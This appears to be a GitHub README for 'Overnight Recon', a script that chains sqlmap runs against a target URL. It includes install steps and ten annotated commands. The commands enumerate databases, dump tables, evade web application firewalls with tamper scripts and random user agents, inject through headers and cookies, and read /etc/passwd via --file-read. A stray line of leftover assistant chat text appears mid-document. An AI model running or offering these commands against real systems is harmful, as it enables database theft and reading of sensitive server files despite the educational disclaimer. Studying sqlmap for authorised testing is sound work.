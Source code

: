 

**Overnight Recon** is an automated reconnaissance tool designed for security professionals and researchers. It executes a series of predefined SQL injection commands against a target to identify potential vulnerabilities. The tool operates in verbose mode, logging all activities into a log file for detailed analysis.

### Features
- Executes SQL injection commands against a specified target.
- Supports verbose mode with comprehensive logging.
- Logs all activities into `logsql.txt` for review.
- Customizable for additional tools and commands.

### License
This tool is licensed under the **GNU General Public License (GPL) v3.0**. You are free to modify and redistribute the code, provided that any derivative works are also open source under the GPL license.

### Installation

#### On Linux

1. **Install Required Packages:**
   Ensure you have Python 3 and pip installed. You can install them using your package manager if they are not already installed.

   ```
   sudo apt update
   sudo apt install python3 python3-pip
   ```

2. **Install SQLMap:**
   SQLMap is a popular SQL injection tool used for detecting and exploiting SQL injection flaws. Install it via pip.

   ```
   sudo pip3 install sqlmap
   ```

3. **Download and Set Up Overnight Recon:**
   Clone the repository and make the script executable.

   ```
   git clone https://github.com/IlumCI/Overnight-Recon.git
   cd Overnight-Recon
   chmod +x ovrecon.sh
   ```

4. **Run the Script:**
   You can now run the script by executing:

   ```
   ./ovrecon.sh
   ```

#### On Windows (via WSL)

1. **Install WSL (Windows Subsystem for Linux):**
   Follow the instructions [here](https://docs.microsoft.com/en-us/windows/wsl/install) to install WSL and a Linux distribution of your choice.

2. **Install Required Packages in WSL:**
   Open your WSL terminal and install Python 3 and pip.

   ```
   sudo apt update
   sudo apt install python3 python3-pip
   ```

3. **Install SQLMap:**
   Install SQLMap using pip.

   ```
   sudo pip3 install sqlmap
   ```

4. **Download and Set Up Overnight Recon:**
   Clone the repository and make the script executable.

   ```
   git clone https://github.com/IlumCI/Overnight-Recon.git
   cd Overnight-Recon
   chmod +x ovrecon.sh
   ```

5. **Run the Script:**
   Execute the script with:

   ```
   ./ovrecon.sh
   ```

Certainly! Below is a section that explains what each command in the script does to the target. This will help users understand the purpose and function of each command when using the tool.

---

## Command Breakdown

This section provides an explanation of what each SQLmap command in the `ovrecon.sh` script does to the target. Understanding these actions is crucial for effective testing and exploitation.

### 1. Basic SQL Injection Test
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 -v 6
```
- **Purpose**: This command initiates a basic SQL injection test on the target URL with the given POST data.
- **Details**:
  - `--batch`: Automatically accepts default options to avoid interactive prompts.
  - `--level=3`: Specifies the intensity of tests, with level 3 performing more thorough checks.
  - `--risk=2`: Focuses on riskier tests that could potentially alter the database but are more likely to uncover vulnerabilities.
  - `-v 6`: Provides the most detailed output, showing all HTTP requests and responses.

### 2. Enumerate the Databases
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --dbs -v 6
```
- **Purpose**: This command attempts to list all the databases on the target server.
- **Details**:
  - `--dbs`: Tells SQLmap to enumerate databases if an SQL injection vulnerability is found.

### 3. Dump Data from a Specific Table
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 -D '$DATABASE_NAME' -T '$TABLE_NAME' --dump -v 6
```
- **Purpose**: Extracts data from a specific table in a specified database.
- **Details**:
  - `-D '$DATABASE_NAME'`: Specifies the database to target.
  - `-T '$TABLE_NAME'`: Specifies the table within the database.
  - `--dump`: Dumps all data from the specified table.

### 4. Identify Injection Points
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=5 --risk=3 --identify-waf -v 6
```
- **Purpose**: Identifies specific points in the target where SQL injection can occur and checks for Web Application Firewalls (WAFs).
- **Details**:
  - `--level=5`: Performs the most extensive and thorough tests.
  - `--risk=3`: Executes highly risky tests that could have severe impacts on the database.
  - `--identify-waf`: Detects the presence of WAFs that could block SQL injection attempts.

### 5. Use Tamper Scripts to Bypass WAF
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --tamper='$TAMPER_SCRIPTS' -v 6
```
- **Purpose**: Attempts to bypass WAF protections by modifying the SQL payload using tamper scripts.
- **Details**:
  - `--tamper='$TAMPER_SCRIPTS'`: Uses the specified tamper scripts (`space2comment`, `randomcase`) to alter the SQL injection payload in ways that may bypass WAF filters.

### 6. Test for Injection via HTTP Headers
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --headers='X-Forwarded-For: 127.0.0.1' -v 6
```
- **Purpose**: Tests for SQL injection vulnerabilities via HTTP headers.
- **Details**:
  - `--headers='X-Forwarded-For: 127.0.0.1'`: Adds a custom HTTP header to the request, which can sometimes bypass certain security mechanisms or reveal additional vulnerabilities.

### 7. Use Cookies for Injection Testing
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --cookie='session=abc123' -v 6
```
- **Purpose**: Explores SQL injection vulnerabilities by injecting into the cookie field.
- **Details**:
  - `--cookie='session=abc123'`: Uses a custom cookie, simulating an authenticated session to check if the application is vulnerable when cookies are manipulated.

### 8. Use Different HTTP Methods
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --method=POST -v 6
```
- **Purpose**: Tests for SQL injection vulnerabilities using different HTTP methods.
- **Details**:
  - `--method=POST`: Specifies the HTTP method to be used in the request, which can affect how the server processes the input and reveal different vulnerabilities.

### 9. Randomize User-Agent and Referer
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --random-agent -v 6
```
- **Purpose**: Randomizes the `User-Agent` and `Referer` headers to evade basic security measures and test for SQL injection vulnerabilities under different conditions.
- **Details**:
  - `--random-agent`: Randomizes the `User-Agent` header to simulate different browsers or devices, which can bypass some security filters.

### 10. Check for SQL Injection via Files and Payloads
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --file-read=/etc/passwd -v 6
```
- **Purpose**: Attempts to exploit SQL injection to read sensitive files from the server.
- **Details**:
  - `--file-read=/etc/passwd`: Attempts to read the `/etc/passwd` file on Unix-like systems, which contains user account information.

---

   
---

## For Educational Purposes

**Overnight Recon** is designed strictly for educational and research purposes. It is intended to help security professionals understand how automated reconnaissance tools can be used in penetration testing and security assessments.

**Disclaimer:**
- **Legal Use Only**: Use this tool only on systems you own or have explicit permission to test. Unauthorized use against systems without permission is illegal and unethical.
- **Educational Intent**: This tool is provided for learning purposes to understand security concepts and practices. The creator of this tool disclaims any responsibility for misuse or illegal activities.

**Guidance for Use:**
- **Learning**: Utilize this tool to learn about SQL injection and automated testing.
- **Testing**: Test your own systems or participate in ethical hacking environments where you have consent.
- **Improvement**: Modify and enhance the tool as part of your learning process, but always ensure you comply with legal and ethical standards.

---
